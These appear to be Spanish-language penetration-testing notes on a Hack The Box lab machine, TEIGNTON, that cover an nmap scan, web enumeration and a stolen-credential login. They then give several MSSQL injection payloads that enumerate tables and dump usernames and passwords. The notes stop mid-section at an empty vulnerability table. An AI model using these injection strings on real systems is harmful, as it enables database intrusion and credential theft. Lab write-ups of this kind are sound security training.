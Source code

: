 #Advanced-Labs #Nota #tecnicas 

### Ping

```python
ping -c 1 10.13.37.12
PING 10.13.37.12 (10.13.37.12) 56(84) bytes of data.
64 bytes from 10.13.37.12: icmp_seq=1 ttl=127 time=96.2 ms

--- 10.13.37.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.183/96.183/96.183/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Nmap scan report for 10.13.37.12
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
443/tcp  open  ssl/https
|_http-title: Home page - Home
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
| ms-sql-info: 
|   10.13.37.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 GDR1
|       number: 15.00.2070.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: GDR1
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.13.37.12:1433: 
|     Target_Name: TEIGNTON
|     NetBIOS_Domain_Name: TEIGNTON
|     NetBIOS_Computer_Name: WEB
|     DNS_Domain_Name: TEIGNTON.HTB
|     DNS_Computer_Name: WEB.TEIGNTON.HTB
|     DNS_Tree_Name: TEIGNTON.HTB
|_    Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2024-06-12T13:37:50
|_Not valid after:  2024-12-12T13:37:50
| rdp-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-14T16:57:50+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 44s, deviation: 0s, median: 44s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

### Enumeración del puerto 80 (http)
El puerto `443/tcp` está abierto, y tiene corriendo el servicio `open ssl` es decir que es una `web https`.
parece que tenemos muchas cosas aquí. debemos hacer una enumeración mas a fundo de esta web
![[Pasted image 20240714130314.png]]

si vamos al apartado de staff y analizamos el código fuente podemos encontrar la primera flag y también podemos ver unas credenciales
![[Pasted image 20240714130420.png]]

### admin
aquí vamos a probar las credenciales que hemos conseguido 
![[Pasted image 20240714132229.png]]

### SQLI
después de logearnos podemos ver el apartado de management y lo primero que vemos es una especie de petición a una base de datos asi que probamos directamente una `SQLI` y obtenemos información del primer parámetro `weapp`  

```python
'+(select db_name())+'
```

![[Pasted image 20240714132403.png]]

### Enumeración de la base de datos

```python
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
```

en esta enumeración podemos ver que existe una tabla que se llama `users`
![[Pasted image 20240714132734.png]]

`dumpeamos el campo users`
```python
'+(select top 1 username from users order by username)+'
```

![[Pasted image 20240714133051.png]]

`dumpeamos el campo password`
```python
'+(select top 1 password from users order by username)+'
```

![[Pasted image 20240714133156.png]]

`haciendo muchas pruebas y peticiones logramos conseguir una flag`
```python
'+(select password from users order by username offset 2 rows fetch next 1 rows only)+'
```

![[Pasted image 20240714133355.png]]

### Fuzzing con wfuzz
haciendo fuzzing encontramos un directorio llamado 
![[Pasted image 20240714133924.png]]






### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |